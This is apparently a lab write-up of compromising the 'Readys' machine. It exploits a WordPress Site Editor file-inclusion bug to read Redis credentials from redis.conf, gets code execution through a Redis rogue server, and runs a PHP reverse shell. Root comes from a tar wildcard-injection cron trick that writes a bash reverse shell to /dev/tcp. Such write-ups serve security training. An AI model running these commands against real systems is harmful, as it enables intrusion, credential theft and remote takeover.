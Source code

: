 # Readys

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.166                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:23 +08
Nmap scan report for 192.168.208.166
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Redis is enabled on this, which is probably vulnerable somehow. I did a detailed scan too:

```
$ nmap -p 80,6379 -sC -sV --min-rate 3000 192.168.208.166        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:24 +08
Nmap scan report for 192.168.208.166
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: WordPress 5.7.2
6379/tcp open  redis   Redis key-value store
```

Wordpress was running on the site, so let's scan that first.

### Redis Creds Block

The Redis instance needed credentials to enumerate:

```
$ redis-cli -h 192.168.208.166
192.168.208.166:6379> INFO
NOAUTH Authentication required.
```

### Wordpress LFI --> Redis Creds

I used `wpscan` on the website and found a vulnerable plugin.&#x20;

```
$ wpscan --api-token mytoken --enumerate p,t,u --url http://192.168.208.166
<TRUNCATED>
[+] site-editor
 | Location: http://192.168.208.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

I confirmed that this works:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

So we have an LFI, and the only other exploitable thing is the Redis instance. I tried to find credentials for it using this LFI, and found it within `/etc/redis/redis.conf`:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
{% endcode %}

Searching for the `AUTH` string allowed me to find the password:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can then enumerate the database:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Redis RCE

The Redis instance is vulnerable to RCE through the module loading exploit with Redis Rogue Server:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can easily get a reverse shell using this RCE exploit:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis --> Alice

This user had extremely limited privileges over the file system. There was a user present, but I cold not even read the `/home` directory. There wasn't much else we could do besides try to execute PHP reverse shells using the LFI we had.

I wrote a PHP reverse shell to the `/opt/redis-cli` directory. Then, using our LFI, we can execute it:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/phpreverseshell.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Cronjob --> Tar Command Injection

I ran `pspy64` on the machine to see what processes were being run.

```
2023/07/21 03:51:01 CMD: UID=0    PID=839    | /usr/sbin/CRON -f 
2023/07/21 03:51:01 CMD: UID=0    PID=840    | /bin/sh -c /usr/local/bin/backup.sh
```

`root` is running a script here:

```bash
alice@readys:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks multiple files at one go (3 in this case) Based on GTFOBins, we can use `tar` to execute commands.

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

To exploit this, we just need to create two files, one called `--checkpoint=1` and another called `--checkpoint-action=exec=bash ez.sh`.&#x20;

We can first create `ez.sh`:

```bash
echo '#!/bin/bash' > ez.sh
echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1' >> ez.sh
chmod 777 ez.sh
```

Then, we can create the two files needed.

```bash
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=bash ez.sh'
```

After a while, the `root` user would execute the script and we would get a reverse shell:

![](<../../../.gitbook/assets/image (24).png>)

